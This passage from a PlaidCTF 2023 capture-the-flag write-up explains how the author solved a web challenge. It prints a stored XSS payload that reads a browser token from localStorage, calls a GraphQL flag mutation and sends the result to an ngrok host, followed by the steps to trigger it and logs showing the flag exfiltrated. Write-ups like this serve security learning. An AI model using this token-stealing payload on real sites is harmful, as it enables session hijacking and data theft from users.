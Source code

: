 **Final XSS Payload:**
```html
<img src=x onerror="async function postData() {
const data = { 'query': 'mutation { flag }' };
const response = await fetch('https://987a-{Redacted}.ngrok-free.app/graphql', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'Authorization': localStorage.token
    },
    body: JSON.stringify(data)
});
const text = await response.text();
fetch('https://987a-{Redacted}.ngrok-free.app/?d=' + text);
}; postData();">
```

**Then send the `report` mutation query:**
```
client_1    | 172.21.0.1 - - [15/Apr/2023:15:03:33 +0000] "GET /?d=\{%22data%22:\{%22flag%22:%22PCTF{fake_flag}%22}} HTTP/1.1" 200 366 "https://987a-{Redacted}.ngrok-free.app/user/bd349a2a-5040-433e-be47-d1b5a84edb2f" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.49 Safari/537.36" "{Redacted}"
```

**Armed with above information, we can now work on the remote instance!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PlaidCTF-2023/images/Pasted%20image%2020230415230623.png)

However, it only has 2 minutes up-time.

Some teams wrote a solve script, however, I decided to speed run it! :D

**So, to recreate the above testing PoC, we need to:**

1. Register an account
2. Create a new playlist with the XSS payload
3. Send the `report` mutation query to the GraphQL endpoint

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PlaidCTF-2023/images/Pasted%20image%2020230415232747.png)

**And you see the following request in Ngrok:**
```
client_1    | 172.21.0.1 - - [15/Apr/2023:15:21:05 +0000] "GET /?d=\{%22data%22:\{%22flag%22:%22PCTF{sorry_about_all_the_networking_problems..._f252ceec1321fd285398809b}}%22}} HTTP/1.1" 200 366 "http://5c6a8576-c1e8-45d6-96f4-690cdfa8afc0.dubs.putlocker.chal.pwni.ng:20004/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.49 Safari/537.36" "44.201.232.122"
```

Bam! We got the flag!

- **Flag: `PCTF{sorry_about_all_the_networking_problems..._f252ceec1321fd285398809b}`**

### Conclusion

